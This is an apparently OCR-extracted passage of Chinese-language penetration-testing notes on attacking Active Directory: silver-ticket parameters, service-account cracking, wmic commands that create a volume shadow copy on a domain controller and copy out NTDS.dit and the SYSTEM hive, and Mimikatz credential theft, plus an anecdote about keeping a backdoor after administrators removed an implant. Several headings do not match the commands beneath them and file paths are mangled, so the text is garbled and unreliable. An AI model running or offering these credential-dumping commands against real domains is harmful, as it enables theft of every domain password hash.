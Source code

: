 /sid

/target: 目标服务器的域名全称，此处为域控的全称

/service: 目标服务器上面的 kerberos 服务，此处为 cifs

/rc4: 计算机账户的 NTLM hash，域控主机的计算机账户

/user: 要伪造的用户名，此处可用 silver 测试

```
目录分区
https://technet.microsoft.com/en-us/library/cc961591.aspx
```

```
https://technet.microsoft.com/en-us/library/cc772829(v=ws.10).aspx
```

### 域服务账号破解

与上面 SPN 扫描类似的原理

```
Windows Server 2003, Windows Server 2008, Windows Server 2003 R2, Windows Server 2008 R2, Windows Server 2012, Windows 8
```

获取所有用作 SPN 的帐户  

```
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
```

从 Mimikatz 的 ram 中提取获得的门票

```
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"

wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"

net use k: \pentest.comc$
```

用 rgsrepcrack 破解

```
https://github.com/yosqueoy/ditsnap
```

没复现成功

### **凭证盗窃**

最常用的手法域管理登录历史记录, 记得获取某边界权限一个然后抓取 hash 并没有域管理的, 可能是搞的动静有点大, 管理员第二天上去把马给清除了, 还好留了有后门再次抓取 hash 直接获取到域管理员。

大多数 Active Directory 管理员使用用户帐户登录到其工作站，然后使用 RunAs（将其管理凭据放置在本地工作站上）或 RDP 连接到服务器运行 Mimikatz 读取密码，收集密码尝试登录管理员机器一般只要域管理员登录过的机器抓取都可以获取域控了
